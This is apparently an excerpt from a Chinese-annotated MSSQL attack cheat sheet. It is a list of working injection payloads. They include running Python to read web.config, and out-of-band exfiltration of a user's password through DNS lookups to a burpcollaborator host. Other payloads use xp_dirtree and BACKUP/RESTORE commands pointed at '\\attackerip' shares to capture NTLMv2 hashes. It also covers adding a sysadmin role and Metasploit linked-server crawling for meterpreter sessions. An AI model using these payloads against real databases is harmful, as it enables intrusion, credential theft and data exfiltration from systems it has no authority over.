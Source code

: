 	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
	多行执行
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'
	import sys
	print(sys.version)
	'
	GO
  ##### OOB
	dnslog
	需要VIEW SERVER STATE 权限
	1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

	需要 CONTROL SERVER 权限
	1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
	1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
	
	UNC Path
	MSSQL支持堆查询，创建一个指向我们的 IP 地址的变量，然后使用 xp_dirtree 函数列出我们 SMB 共享中的文件并获取 NTLMv2 哈希
	1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
	xp_dirtree '\\attackerip\file'
	xp_fileexist '\\attackerip\file'
	BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
	BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
	RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
	RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
	RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
	RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
	RESTORE LABELONLY FROM DISK = '\\attackerip\file'
	RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
	RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'

	添加DBA
	EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;

	信任链接
	数据库之间的链接甚至可以跨林信任工作
	msf> use exploit/windows/mssql/mssql_linkcrawler
	[msf> set DEPLOY true] 如果要利用获取meterpreter会话的权限，将DEPLOY设置为true

	查找链接
	select * from master..sysservers

	通过链接执行查询
	select * from openquery("dcorp-sql1", 'select * from master..sysservers')
	select version from openquery("linkedserver", 'select @@version as version');

	多条查询
	select version from openquery("link1",'select version from openquery("link2","select @@version as version")')
